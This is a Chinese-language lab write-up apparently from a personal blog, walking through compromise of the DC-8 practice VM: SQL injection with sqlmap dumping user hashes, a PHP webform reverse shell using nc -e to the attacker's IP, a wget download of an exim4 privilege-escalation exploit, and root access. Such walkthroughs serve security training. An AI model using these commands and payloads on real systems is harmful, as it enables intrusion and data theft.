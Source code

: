 ```yaml
---
title: DC-8
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 靶机
comments: false
date: 2021-02-18 18:24:42
tags: 渗透
keywords:
description:
photos: \img\article\24.png
---
```


# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.149
```

![image-20210218182641287](DC-8/image-20210218182641287.png)

访问80端口

![image-20210218182840209](DC-8/image-20210218182840209.png)

# 数据库攻击

点击Who We Are 

发现url出现nid=2，加个单引号试试，发现sql注入

![image-20210218183034789](DC-8/image-20210218183034789.png)

用sqlmap跑，当然这里就是一个union的整形注入,手工注入也可以

```bash
sqlmap -u http://192.168.182.149/?nid=1  -D d7db -T users -C "name,pass" --dump #爆数据
```

![image-20210218183924425](DC-8/image-20210218183924425.png)

+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
| admin | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z |
| john  | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF |
+-------+---------------------------------------------------------+

## 破解密码

有个john用户,估计是要让我们破解john的密码

![image-20210218192802338](DC-8/image-20210218192802338.png)

成功登录

![image-20210218192847670](DC-8/image-20210218192847670.png)

# Getshell

到处乱找找到了可以添加代码的地方

在Add content–>Webform去添加webshell

![image-20210218193640808](DC-8/image-20210218193640808.png)

但是找不到路劲,无法执行php代码

改为反弹shell

```php
<?php
system("nc -e /bin/bash 192.168.182.137 2333");
 ?>
```

然后发现代码需要提交表单才能执行,只有又去修改Contact Us里的WEBFORM

![image-20210218194929461](DC-8/image-20210218194929461.png)

然后提交表单

![image-20210218194828077](DC-8/image-20210218194828077.png)

但是一直成功不了,我也不知道为什么,加了个<p></p>标签后退出登录提交表单又成功了

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

进入交互模式

# 提权

去home目录下看了发现没有东西

然后 sudo -l 不行

查看具有root权限的命令

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20210218200235198](DC-8/image-20210218200235198.png)

发现exim4,--version查看版本为4.89

本地找一下发现有一个可以提权的漏洞

![image-20210218200622059](DC-8/image-20210218200622059.png)

本地开启8000端口

```
python -m SimpleHTTPServer 8000
```

使用wget下载，发现只有在tmp目录下有权限

```
www-data@dc-8:/tmp$ wget http://192.168.182.137:8000/46996.sh 
```

使用中报错了，需要对exp脚本进行编码

```
vim 46996.sh       #应该是回kali中进行编码,然后重新下载,我在获取的shell中修改还是报错

:set ff=unix

:wq
```

然后加权限

```
chmod +777 46996.sh
```

按照脚本中所说的 加 -m netcat 成功获取root权限

![image-20210218204253041](DC-8/image-20210218204253041.png)
